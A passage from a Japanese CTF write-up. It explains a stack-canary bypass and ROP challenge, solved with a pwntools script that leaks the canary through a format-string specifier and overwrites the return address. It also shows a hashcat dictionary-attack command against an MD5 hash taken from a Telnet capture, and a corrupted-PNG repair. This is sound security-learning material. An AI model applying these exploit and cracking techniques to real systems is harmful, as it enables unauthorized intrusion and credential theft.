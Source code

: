 このソルバーでFlagを取得。

### tweetbird

スタックカナリアをバイパスしてROPをキメる問題でした。

書式文字攻撃でカナリアのバイト列をメモリから抜き出すところまでは上手くいったのですがなぜかエクスプロイトが刺さらずリタイア。

あとで確認したら、「メモリから抜き出したバイト列をリトルエンディアンに変換→ペイロード埋め込み」って処理をさせてたのですが、メモリから抜いてるんだから最初からリトルエンディアン記法ですよね、、っていうオチでしたorz

というわけでメモリから抜いたカナリアのバイト列をそのままペイロードに埋め込めばROPが成立してFlagが取れました。

``` python
from pwn import *
elf = ELF("/home/parrot/Downloads/tweetybirb")
context.binary = elf
nopsled = b"\x41"*72
payload = nopsled

p = process("/home/parrot/Downloads/tweetybirb")
# p = remote("143.198.184.186", 5002)
# shellcode = p64(0xc6a8b9f731892800)
# p.sendline(payload)
# p.sendline(b"A"*72 + b"%08x."*20)
r = p.recvline()
p.sendline("%15$p")
r = p.recvline()
shellcode = p64(int(r.strip(), 0x10))
shellcode2 = p64(0x4011db)
p.sendline(payload + shellcode + b'\x41'*8 + shellcode2)
p.interactive()
```

これで取れます。

## Forensic

### Obligatory Shark

問題のpcapファイルをダウンロードすると、Telnet通信のパケットでした。

Telnetは平文なのでパスワードが取れました。

見た感じパスワードはMD5だったので、Hashcatで辞書攻撃を仕掛けて元のパスワードを取得してFlag取得。

``` bash
hashcat -a 0 -m 0 list.hash /usr/share/wordlists/rockyou.txt
```

### Shes A Killed Queen

渡されたのは破損したPNGファイル。

調べたところIHDRチャンクのサイズが`0 x 0`になっていたのでこれを修復してあげればいい感じでした。

